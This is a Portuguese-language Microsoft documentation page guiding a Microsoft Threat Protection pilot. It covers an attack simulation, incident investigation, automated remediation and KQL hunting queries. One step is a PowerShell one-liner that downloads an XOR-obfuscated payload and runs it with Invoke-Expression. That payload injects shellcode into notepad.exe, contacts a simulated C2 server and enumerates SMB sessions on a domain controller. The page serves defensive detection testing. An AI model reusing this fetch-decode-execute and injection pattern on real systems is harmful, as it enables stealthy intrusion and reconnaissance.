

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Executar as simulações de ataque de proteção contra ameaças da Microsoft  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Aplica-se a:**
- Proteção contra Ameaças da Microsoft
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Planta </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Preparar </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simular ataque </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Fechar e resumir </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Você está atualmente na fase de simulação de ataque.

Após preparar seu ambiente piloto, é hora de testar o gerenciamento de incidentes da proteção contra ameaças da Microsoft e os recursos de investigação e correção automatizados. Ajudaremos você a simular um ataque sofisticado que aproveita as técnicas avançadas para ocultar da detecção. O ataque enumera as sessões de SMB (bloco de mensagens de servidor) abertas em controladores de domínio e recupera endereços IP recentes de dispositivos de usuários. Essa categoria de ataques geralmente não inclui arquivos descartados no dispositivo da vítima: eles ocorrem exclusivamente na memória. Eles "vivem do terreno" usando ferramentas de sistema e administrativas existentes e injetam seu código em processos do sistema para ocultar sua execução, permitindo que eles causem a detecção e persistam no dispositivo.

Nesta simulação, nosso cenário de exemplo começa com um script do PowerShell. Um usuário pode ser levado para executar um script. Ou o script pode ser executado a partir de uma conexão remota para outro computador a partir de um dispositivo previamente infectado, o invasor que está tentando se mover mais tarde na rede. A detecção desses scripts pode ser difícil porque os administradores também costumam executar scripts remotamente para realizar várias atividades administrativas.


Durante a simulação, o ataque injeta shellcode em um processo aparentemente inocente. Neste cenário, usaremos notepad.exe. Escolhemos esse processo para a simulação, mas os invasores provavelmente serão direcionados a um processo de sistema de longa execução, como svchost.exe. O shellcode prossegue para entrar em contato com o servidor de comando e controle (C2) do invasor para receber instruções sobre como proceder. Além disso, o script tenta executar consultas de reconhecimento no controlador de domínio (DC). Isso permite que um invasor Obtenha informações sobre as informações recentes de login do usuário. Após os invasores terem essa informação, eles podem ser movidos para a rede de forma mais tarde para obter uma conta confidencial específica

>[!IMPORTANT]
>Para obter resultados ideais, siga as instruções de simulação de ataque o mais próximo possível.


## <a name="simulation-environment-requirements"></a>Requisitos do ambiente de simulação

Como você já configurou o ambiente piloto durante a fase de preparação, verifique se você tem dois dispositivos para este cenário: um dispositivo de teste e um controlador de domínio.

1.  Verifique se o seu locatário [ativou a proteção contra ameaças](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)da Microsoft contra ameaças da Microsoft.

2.  Verifique a configuração do controlador de domínio de teste:

    - O dispositivo é executado com o Windows Server 2008 R2 ou uma versão posterior.
    - O controlador de domínio de teste para a [proteção avançada contra ameaças do Azure](https://docs.microsoft.com/azure/security-center/security-center-wdatp) e habilitar o [gerenciamento remoto](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Verifique se a [integração do Azure ATP e do Microsoft Cloud app Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) foi habilitada.
    - Um usuário de teste é criado em seu domínio – nenhuma permissão de administrador é necessária.

3.  Verifique a configuração do dispositivo de teste:
 
    1.  O dispositivo é executado com o Windows 10 versão 1903 ou uma versão posterior.
    
    1.  O dispositivo de teste faz parte do domínio de teste.
    
    1.  [Ative o Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Se você estiver tendo problemas para habilitar o Windows Defender Antivirus, consulte este [tópico de solução de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    
    1.  Verifique se o dispositivo de teste está [integrado ao Microsoft defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Se você usar um locatário existente e implementar grupos de dispositivos, crie um grupo de dispositivos dedicado para o dispositivo de teste e empurre-o para o nível superior na configuração UX.


## <a name="run-the-simulation"></a>Executar a simulação

Para executar a simulação do cenário de ataque:

1.  Faça logon no dispositivo de teste com a conta de usuário de teste.

2.  Abra uma janela do Windows PowerShell no dispositivo de teste.

3.  Copie o seguinte script de simulação:

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > Se você abrir este documento em um navegador da Web, poderá ter problemas ao copiar o texto completo sem perder determinados caracteres ou introduzir quebras de linha extras. Baixe este documento e abra-o no Adobe Reader.

4. No prompt, Cole e execute o script copiado.

>[!NOTE]
>Se você estiver executando o PowerShell usando o protocolo RDP, use o comando digitar texto da área de transferência no cliente RDP porque a tecla de atalho **Ctrl-V** ou o método clique com o botão direito do mouse-colar pode não funcionar.  As versões recentes do PowerShell às vezes também não aceitarão esse método, você pode precisar copiar para o bloco de notas na memória primeiro, copiá-lo na máquina virtual e colá-lo no PowerShell.

Alguns segundos mais tarde, o <i>notepad.exe</i> será aberto. Um código de ataque simulado será injetado em notepad.exe. Mantenha a instância gerada automaticamente do bloco de notas aberta para experimentar o cenário completo.

O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando o servidor C2) e tentará o reconhecimento em relação ao controlador de domínio por meio de SMB.

Você verá uma mensagem exibida no console do PowerShell quando esse script for concluído.

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

Para ver o recurso automatizado de incidentes e respostas em ação, mantenha o processo de notepad.exe aberto. Você verá incidentes e respostas automáticos para interromper o processo do bloco de notas.


## <a name="investigate-an-incident"></a>Investigar um incidente

>[!NOTE]
>Antes de orientá-lo nesta simulação, Assista ao vídeo a seguir para ver como o gerenciamento de incidentes ajuda você a juntar os alertas relacionados, como parte do processo de investigação, onde você pode encontrá-los no portal e como ele pode ajudá-lo em suas operações de segurança:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Mudando para o ponto de vista do analista do SOC, agora você pode começar a investigar o ataque no portal da central de segurança do Microsoft 365. 

1.  Abra a fila de incidentes do [portal da central de segurança do Microsoft 365](https://security.microsoft.com/incidents) de qualquer dispositivo.

2.  Navegue até **incidentes** no menu. 

    

3.  O novo incidente para o ataque simulado será exibido na fila de incidentes.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Investigue o ataque como um único incidente

A proteção contra ameaças da Microsoft correlaciona a análise e agrega todos os alertas e investigações relacionados de produtos diferentes em uma entidade de incidente. Fazendo isso, a proteção contra ameaças da Microsoft mostra uma história de ataque mais ampla, permitindo que o analista do SOC entenda e responda a ameaças complexas.

Os alertas gerados durante essa simulação estão associados à mesma ameaça e, como resultado, são automaticamente agregados como um único incidente.

Para exibir o incidente:

1.  Navegue até a fila de **incidentes** .
 
    

2.  Selecione o item mais recente clicando no círculo localizado à esquerda do nome do incidente. Um painel lateral exibe informações adicionais sobre o incidente, incluindo todos os alertas relacionados. Cada incidente tem um nome exclusivo que o descreve com base nos atributos dos alertas que inclui.

    

    Os alertas mostrados no painel podem ser filtrados com base nos recursos de serviço: Azure ATP, segurança do aplicativo Cloud da Microsoft, Microsoft defender ATP, proteção contra ameaças da Microsoft e Office ATP.  

3.  Selecione **abrir página de incidente** para obter mais informações sobre o incidente.

    Na página **incidente** , você pode ver todos os alertas e informações relacionadas ao incidente. Isso inclui as entidades e os ativos envolvidos no alerta, a fonte de detecção dos alertas (Azure ATP, EDR) e o motivo pelo qual foram vinculados. A revisão da lista de alertas de incidentes mostra a progressão do ataque. Nesse modo de exibição, você pode ver e investigar os alertas individuais.

    Você também pode clicar em **gerenciar incidente** no menu direito, marcar o incidente, atribuí-lo a si mesmo e adicionar comentários.

    

    


### <a name="review-generated-alerts"></a>Examinar alertas gerados 

Vamos examinar alguns dos alertas gerados durante o ataque simulado.

>[!NOTE]
>Vamos examinar apenas alguns alertas gerados durante o ataque simulado. Dependendo da versão do Windows e dos produtos de proteção contra ameaças da Microsoft executados em seu dispositivo de teste, você poderá ver mais alertas que aparecem em uma ordem um pouco diferente.

 


**Alerta: injeção de processo suspeito observada (origem: Microsoft defender ATP EDR)**

Os invasores avançados usam métodos sofisticados e furtivos para persistir na memória e ocultar as ferramentas de detecção. Uma técnica comum é operar de dentro de um processo de sistema confiável, em vez de um executável mal-intencionado, dificultando as ferramentas de detecção e as operações de segurança para identificar o código mal-intencionado.

Para permitir que os analistas do SOC confiram esses ataques avançados, os sensores de memória profundas no Microsoft defender ATP fornecem visibilidade sem precedentes em uma variedade de técnicas de injeção de código de processo cruzado. A figura a seguir mostra como o Microsoft defender ATP foi detectado e alertado na tentativa de injetar código para <i>notepad.exe</i>.

 


**Alerta: comportamento inesperado observado por um processo executado sem argumentos de linha de comando (origem: Microsoft defender ATP EDR)**

As detecções do Microsoft defender ATP freqüentemente direcionam o atributo mais comum de uma técnica de ataque. Isso garante durabilidade e eleva a barra para que os invasores alternem para táticas mais recentes.

Empregamos algoritmos de aprendizado em larga escala para estabelecer o comportamento normal de processos comuns dentro de uma organização e em todo o mundo e observar quando esses processos apresentam comportamentos anormais. Esses comportamentos anormais geralmente indicam que código estranho foi introduzido e está em um processo de confiança de outra forma.

Para esse cenário, o <i>notepad.exe</i> de processo está exibindo um comportamento anormal, envolvendo a comunicação com um local externo. Esse resultado é independente do método específico usado para introduzir e executar o código mal-intencionado.

>[!NOTE]
>Como esse alerta se baseia nos modelos de aprendizado de máquina que exigem processamento de backend adicional, pode levar algum tempo antes de ver esse alerta no Portal.

Observe que os detalhes do alerta incluem o endereço IP externo, um indicador que você pode usar como uma tabela dinâmica para expandir a investigação.

Clique no endereço IP na árvore processo de alerta para exibir a página detalhes do endereço IP.

 

A figura a seguir exibe a página de detalhes do endereço IP selecionado (clicando em endereço IP na árvore de processo de alerta).


**Alerta: reconhecimento de endereço IP e de usuário (SMB) (origem: ATP do Azure)**

A enumeração usando protocolo SMB permite que os invasores obtenham informações recentes de logon do usuário que os ajuda a se moverem mais tarde através da rede para acessar uma conta específica.

Nessa detecção, um alerta é disparado quando a enumeração de sessão SMB é executada em um controlador de domínio.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Examinar a linha do tempo do dispositivo [Microsoft defender ATP]
Após explorar os vários alertas neste incidente, navegue de volta para a página de incidente que você investigou anteriormente. Clique na guia **dispositivos** da página incidente para examinar os dispositivos envolvidos neste incidente como relatado pelo Microsoft defender ATP e Azure ATP.

Clique no nome do dispositivo em que o ataque foi conduzido, para abrir a página de entidade desse dispositivo específico. Nessa página, você pode ver alertas que foram disparados e eventos relacionados.

Clique na guia **linha do tempo** para abrir a linha do tempo do dispositivo e exibir todos os eventos e comportamentos observados no dispositivo em ordem cronológica, intercalado com os alertas gerados.

 

A expansão de alguns dos comportamentos mais interessantes fornece detalhes úteis, como árvores de processo.

Por exemplo, role para baixo até encontrar o evento de alerta **injeções de processo suspeito observado**. Clique no **powershell.exe injetado para notepad.exe** evento de processo abaixo dele, para exibir a árvore de processos completo para esse comportamento no gráfico de **entidades de evento** no painel lateral. Use a barra de pesquisa para filtragem, se necessário.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Analisar as informações do usuário [Microsoft Cloud app Security]

Na página incidente, clique na guia **usuários** para exibir a lista de usuários envolvidos no ataque. A tabela contém informações adicionais sobre cada usuário, incluindo a pontuação de **prioridade de investigação** de cada usuário.

Clique no nome de usuário para abrir a página de perfil do usuário, onde a investigação adicional pode ser conduzida. [Leia mais sobre a investigação de usuários arriscados](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Investigação e correção automatizadas
>[!NOTE]
>Antes de orientá-lo nesta simulação, Assista ao vídeo a seguir para se familiarizar com o que é a AutoCorreção automatizada, onde encontrá-lo no portal e como ele pode ajudar em suas operações de segurança:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navegue de volta para o incidente no portal da central de segurança do Microsoft 365. A guia **investigações** na página **incidente** mostra as investigações automatizadas que foram acionadas pelo Azure ATP e pelo Microsoft defender ATP. A captura de tela abaixo exibe apenas a investigação automatizada disparada pelo Microsoft defender ATP. Por padrão, o Microsoft defender ATP corrige automaticamente os artefatos encontrados na fila que requer correção.


Clique no alerta que disparou uma investigação para abrir a página **detalhes da investigação** . Você verá o seguinte:
- Alerta (s) que disparou a investigação automatizada.
- Usuários e dispositivos afetados. Se forem encontrados indicadores em dispositivos adicionais, esses dispositivos adicionais também serão listados.
- Lista de evidências. As entidades encontradas e analisadas, como arquivos, processos, serviços, drivers e endereços de rede. Essas entidades são analisadas para possíveis relações com o alerta e classificadas como benignas ou mal-intencionadas.
- Ameaças encontradas. Ameaças conhecidas encontradas durante a investigação.

>[!NOTE]
>Dependendo do tempo, a investigação automatizada ainda pode estar em execução. Aguarde alguns minutos para que o processo seja concluído antes de coletar e analisar as evidências e revisar os resultados. Atualize a página **detalhes da investigação** para obter as últimas descobertas.


Durante a investigação automatizada, o Microsoft defender ATP identificou o processo de notepad.exe, que foi injetado como um dos artefatos que exigem correção. O Microsoft defender ATP interrompe automaticamente a injeção de processo suspeita como parte da correção automatizada. 

Você pode ver <i>notepad.exe</i> desaparecer da lista de processos em execução no dispositivo de teste.

## <a name="resolve-the-incident"></a>Resolver o incidente

Após a investigação ser concluída e confirmada para ser corrigida, feche o incidente.

Clique em **gerenciar incidente**. Defina o status como **resolver incidente** e selecione a classificação relevante.

Depois que o incidente for resolvido, ele fechará todos os alertas associados no centro de segurança do Microsoft 365 e nos portais relacionados.

 

<br>
Isso envolve a simulação de ataque para o gerenciamento de incidentes e os cenários de investigação e correção automatizados. A próxima simulação o levará através da busca proativa de ameaças de arquivos possivelmente mal-intencionados. 

## <a name="advanced-hunting-scenario"></a>Cenário de busca avançada

>[!NOTE]
>Antes de orientá-lo pela simulação, Assista ao vídeo a seguir para entender os conceitos avançados de busca, confira onde você pode encontrá-lo no portal e saiba como ele pode ajudá-lo em suas operações de segurança:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisitos de ambiente de caça
Há uma única caixa de correio e dispositivo interno necessários para este cenário. Você também precisará de uma conta de email externa para enviar a mensagem de teste.

1.  Verifique se o seu locatário [ativou a proteção contra ameaças da Microsoft](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Identificar uma caixa de correio de destino a ser usada para receber emails.
    a.  Esta caixa de correio deve ser monitorada pelo Office 365 ATP b.  O dispositivo do requisito 3 precisa acessar esta caixa de correio
3.  Configurar um dispositivo de teste: a.  Verifique se você está usando a versão 1903 ou posterior do Windows 10.
    b.  Ingresse o dispositivo de teste no domínio de teste.
    c.  [Ative o Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Se você estiver tendo problemas para habilitar o Windows Defender Antivirus, consulte [Este tópico de solução de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Integração com o Microsoft defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Executar a simulação
1.  A partir de uma conta de email externa, envie um email para a caixa de correio identificada na etapa 2 da seção requisitos do ambiente de teste. Incluir um anexo que será permitido por meio de qualquer política de filtro de email existente.  Este arquivo não precisa ser mal-intencionado ou executável. Os tipos de arquivo sugeridos são <i>. pdf</i>, <i>. exe</i> (se permitido) ou documento do Office, como um arquivo do Word.
2.  Abra o email enviado do dispositivo configurado conforme definido na etapa 3 da seção requisitos do ambiente de teste. Abra o anexo ou salve o arquivo no dispositivo.


**Caça**
1.  Abra o portal do security.microsoft.com.

2.  Navegue até **caça > busca avançada**.

     

3.  Criar uma consulta que comece coletando eventos de email.

    1.  No painel de consulta, selecione novo.
    
    1.  Clique duas vezes na tabela EmailEvents do esquema.

        ```
        EmailEvents 
        ```                                        

    1.  Alterar o intervalo de tempo para as últimas 24 horas. Supondo que o email enviado quando você executou a simulação acima estava nas últimas 24 horas, caso contrário, altere o intervalo de tempo.
    
         

    1.  Execute a consulta.  Você pode ter muitos resultados, dependendo do ambiente do piloto.  

        > [!NOTE]
        > Consulte a próxima etapa para filtrar opções para limitar o retorno de dados.

         

        > [!NOTE]
        > A busca avançada exibe resultados de consulta como dados tabulares. Você também pode optar por exibir os dados em outros tipos de formato, como gráficos.    

    1.  Examine os resultados e veja se é possível identificar o email que você abriu.  Pode levar até 2 horas para que a mensagem apareça na busca avançada. Se o ambiente de email for grande e houver muitos resultados, talvez você queira usar a **opção Mostrar filtros** para localizar a mensagem. 

        No exemplo, o email foi enviado de uma conta do Yahoo. Clique no **+** ícone ao lado de **yahoo.com** sob a seção SenderFromDomain e, em seguida, clique em **aplicar** para adicionar o domínio selecionado à consulta.  Você deve usar a conta de domínio ou de email que foi usada para enviar a mensagem de teste na etapa 1 da execução da simulação para filtrar os resultados.  Execute novamente a consulta para obter um conjunto de resultados menor para verificar se você vê a mensagem da simulação.
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  Clique nas linhas resultantes da consulta para que você possa inspecionar o registro.
   
         

4.  Agora que você verificou que pode ver o email, adicione um filtro para os anexos. Concentre-se em todos os emails com anexos no ambiente. Para esse cenário, concentre-se em emails de entrada, não aqueles que estão sendo enviados de seu ambiente. Remova qualquer filtro adicionado para localizar sua mensagem e adicionar "| onde **AttachmentCount > 0** e **EmailDirection**  ==  **"entrada"** "

    A consulta a seguir mostrará o resultado com uma lista mais curta do que a consulta inicial de todos os eventos de email:

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  Em seguida, inclua as informações sobre o anexo (como: nome de arquivo, hashes) para o conjunto de resultados. Para fazer isso, ingresse na tabela **EmailAttachmentInfo** . Os campos comuns a serem usados para ingressar, neste caso, são **NetworkMessageId** e **RecipientObjectId**.

    A consulta a seguir também inclui uma linha adicional "| **Project-Rename EmailTimestamp = timestamp**"que ajudará a identificar qual carimbo de data/hora estava relacionado ao email em relação aos carimbos de data/hora relacionados às ações de arquivo que você adicionará na próxima etapa.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  Em seguida, use o valor **SHA256** da tabela **EmailAttachmentInfo** para localizar **DeviceFileEvents** (ações de arquivo que ocorreram no ponto de extremidade) desse hash.  O campo comum aqui será o hash SHA256 para o anexo.

    A tabela resultante agora inclui detalhes do ponto de extremidade (Microsoft defender ATP), como nome do dispositivo, qual ação foi realizada (neste caso, filtrados para incluir apenas eventos filecreated) e onde o arquivo foi armazenado. O nome da conta associado ao processo também será incluído.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

    Agora você criou uma consulta que identificará todos os emails de entrada onde o usuário abriu ou salvou o anexo. Você também pode refinar essa consulta para filtrar domínios de remetente específicos, tamanhos de arquivos, tipos de arquivo e assim por diante.

7.  As funções são uma espécie especial de participação que permitem extrair mais dados de TI sobre um arquivo como suas predominância, as informações de signatário e emissor, etc.  Para obter mais detalhes sobre o arquivo, use a função **fileprofile ()** enriquecimento:

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


**Criar uma detecção**

Depois de criar uma consulta que identifique informações que você gostaria de **receber alertas** sobre se elas ocorrerem no futuro, você poderá criar uma detecção personalizada da consulta. 

As detecções personalizadas executarão a consulta de acordo com a frequência que você definir, e os resultados das consultas criarão alertas de segurança, com base nos ativos afetados que você escolher. Esses alertas serão correlacionados a incidentes e podem ser classificados como qualquer outro alerta de segurança gerado por um dos produtos.

1.  Na página consulta, remova as linhas 7 e 8 que foram adicionadas na etapa 7 das instruções go caça e clique em **criar regra de detecção**. 
    
     

    > [!NOTE]
    > Se você clicar em **criar regra de detecção** e tiver erros de sintaxe em sua consulta, sua regra de detecção não será salva. Verifique novamente sua consulta para garantir que não haja erros. 


2.  Preencha os campos obrigatórios com as informações que permitirão que a equipe de segurança entenda o alerta, por que ele foi gerado e quais ações você espera que eles realizem. 

    

    Certifique-se de preencher os campos com clareza para ajudar a dar ao usuário próximo uma decisão informada sobre esse alerta de regra de detecção 

3.  Selecione quais entidades serão impactadas neste alerta. Nesse caso, selecione **dispositivo** e **caixa de correio**.

    
 

4.  Determine quais ações devem ocorrer se o alerta for disparado. Nesse caso, execute uma verificação antivírus, embora outras ações possam ser executadas. 

     

5.  Selecione o escopo da regra de alerta. Como essa consulta envolve dispositivos, os grupos de dispositivos são relevantes nessa detecção personalizada de acordo com o contexto ATP do Microsoft defender.  Ao criar uma detecção personalizada que não inclua dispositivos como entidades impactadas, o escopo não se aplica.  

     

    Para este piloto, talvez você queira limitar essa regra a um subconjunto de dispositivos de teste em seu ambiente de produção.

6.  Selecione **Criar**. Em seguida, selecione **regras de detecção personalizadas** no painel de navegação.
 
     

     

    Nessa página, você pode selecionar a regra de detecção que abrirá uma página de detalhes. 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Treinamento adicional de busca avançada em exercícios

Para saber mais sobre a busca avançada, os webcasts a seguir vão orientá-lo nos recursos de busca avançada dentro da MTP (proteção contra ameaças da Microsoft) para criar consultas entre pilar, pivotar para entidades e criar detecções personalizadas e ações de correção.

>[!NOTE]
>Prepare-se com sua própria conta do GitHub para executar as consultas de busca em seu ambiente de laboratório de teste piloto.  

|  Título  |  Descrição  |  Baixar MP4  |  Assista ao YouTube  |  Arquivo CSL a ser usado  |
|:-----|:-----|:-----|:-----|:-----|
| Episódio 1: conceitos básicos do KQL | Abordaremos as noções básicas de recursos avançados de busca na proteção contra ameaças da Microsoft. Saiba mais sobre dados de busca avançada disponíveis e sintaxe e operadores básicos de KQL. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Episódio 1: arquivo CSL no git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Episódio 2: junções | Continuaremos aprendendo sobre dados em busca avançada e como ingressar em uma tabela. Saiba mais sobre as nuances interna, externa, exclusiva e semijoins, e as nuances do Kusto innerunique join. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Episódio 2: arquivo CSL no git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Episódio 3: Resumindo, dinamizando e visualizando dados|Agora que podemos filtrar, manipular e participar de dados, é hora de começar a resumir, quantificar, dinamizar e Visualizar. Neste episódio, abordaremos o operador resumido e alguns dos cálculos que podem ser executados ao se aprofundar em tabelas adicionais no esquema de busca avançada. Nós transformamos nossos conjuntos de gráficos em gráficos que podem ajudar a melhorar a análise. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Episódio 3: arquivo CSL no git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Episódio 4: Vamos procurar! Aplicando KQL ao rastreamento de incidentes|Tempo para controlar alguma atividade de atacante! Neste episódio, usaremos nossa compreensão aprimorada do KQL e busca avançada no Microsoft Threat Protection para rastrear um ataque. Saiba algumas das dicas e truques usados no campo para acompanhar a atividade do atacante, incluindo o ABCs do cybersecurity e como aplicá-las à resposta de incidentes. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Episódio 4: arquivo CSL no git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Próxima etapa
| <br>[Fase de fechamento e Resumo](mtp-pilot-close.md) | Analise o resultado do piloto da proteção contra ameaças da Microsoft, apresente-os aos seus participantes e siga a próxima etapa.
|:-----|:-----|

